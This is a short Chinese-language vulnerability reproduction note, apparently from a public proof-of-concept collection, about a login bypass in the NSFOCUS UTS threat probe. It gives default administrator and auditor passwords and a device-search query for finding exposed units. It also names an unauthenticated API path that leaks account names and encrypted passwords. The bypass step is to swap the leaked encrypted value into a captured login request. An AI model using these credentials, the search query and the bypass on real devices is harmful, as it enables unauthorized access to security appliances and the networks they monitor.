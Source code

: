 # 绿盟 UTS综合威胁探针 信息泄露登陆绕过漏洞

## 漏洞描述

绿盟 UTS综合威胁探针 某个接口未做授权导致未授权漏洞

## 漏洞影响

<a-checkbox checked>绿盟 UTS综合威胁探针 </a-checkbox></br>	

## 网络测绘

<a-checkbox checked>app="NSFOCUS-UTS综合威胁探针"</a-checkbox></br>

## 漏洞复现

默认口令

<a-checkbox checked>admin/Nsfocus@123</a-checkbox></br>

<a-checkbox checked>auditor/auditor</a-checkbox></br>

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628385388371-8c2d0646-c565-4233-b44e-02cb22b7eb37.png)

验证POC

```php
/webapi/v1/system/accountmanage/account
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628385427610-3bc1805a-ebb0-4c88-9390-3244af8fe381.png)

这里出现了登录的账号以及加密的 PASS

登陆时的加密字段抓包修改为获取的就可以登陆系统

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628386133132-32cc96fd-6816-4c83-a753-78d6f30dfaf6.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628386108554-9d4b5304-cb43-4a67-80b8-a00544149d48.png)